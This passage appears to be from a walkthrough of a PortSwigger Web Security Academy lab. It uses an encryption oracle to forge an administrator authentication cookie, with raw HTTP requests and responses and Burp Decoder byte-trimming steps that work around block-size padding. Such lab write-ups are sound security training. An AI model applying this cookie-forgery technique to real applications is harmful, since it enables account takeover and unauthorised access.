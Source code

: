 **Response:**
```
HTTP/2 302 Found
Location: /post?postId=8
Set-Cookie: notification=YtjXLmjrhp4FClZTrHbInYy6zo6QON0361UgjIhbcyWoVaIoSaSJC7fhl4UWBQhBv3tTE8PKhjfwyX9k4NvNOw%3d%3d; HttpOnly
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

In the above request, we send `administrator:1683116924082` as an email in the `post/comment` request they produce an error message that is encrypted and set that as our cookie value we see now the error message is like the following.

```
Invalid email address: administrator:1683116146899
```

We see the `Invalid email address:` prefix is added in our response and we only want the `administrator:1683116146899` string, to do that we copy the notification cookie cipher text and go to burp Decoder Tab and paste that cipher text there, and now follow the following steps.

- Do a URL Decode.
- Do Base64 Decode.
- In the response of url and base64 decoded string click on the `Hex` checkmark in the burp decoder to open the result in Hex editor.
- Hold the CTRL key and select the first 23 bytes in the Hex output.
- Right-click on it and select the "Delete selected bytes" option.
- Now re-encode the result with base64 and then url encoding.

Now copy the cipher text and paste it into your request like the following.

```
GET /my-account HTTP/2
Host: 0ac7004b0374c51b81b4f24a00d0007e.web-security-academy.net
Cookie: notification=EjKWEJbRxIovxvb7MjVTmdVSvZGoNqL7; stay-logged-in=8U%2fF0TDQA2n1kQS7aicycbABz6GnmPe7ZFxscJLhl%2bo%3d; session=EjKWEJbRxIovxvb7MjVTmdVSvZGoNqL7
Origin: https://0ac7004b0374c51b81b4f24a00d0007e.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
```

In the response, we see the following different error message instead of an invalid email one.

```
Input length must be multiple of 16 when decrypting with padded cipher
```

This shows that our controlled able input is passed to the decrypt function and that causes some error. The error message indicates that a block-based encryption algorithm is used and that the input length must be a multiple of 16. 

We need to pad the "`Invalid email address:` " prefix with enough bytes so that the number of bytes we will remove is a multiple of 16. To do that we send the request again with the invalid email address `xxxxxxxxxadministrator:your-timestamp` like the following.

```
POST /post/comment HTTP/2
Host: 0ac7004b0374c51b81b4f24a00d0007e.web-security-academy.net
Cookie: stay-logged-in=cQRpSPvfgh6wfp7vQhkxPGfpzDMI0a3Lttwr4%2bycL4w%3d; session=TMYCWxclNnsNdew54bsRemHls3rtbrXE
Content-Length: 120
Origin: https://0ac7004b0374c51b81b4f24a00d0007e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36

csrf=SgbIfThjqph0D5BFA5GQVa5CasiEI8nF&postId=8&comment=t&name=wiener&email=xxxxxxxxxadministrator:1683116924082&website=
```
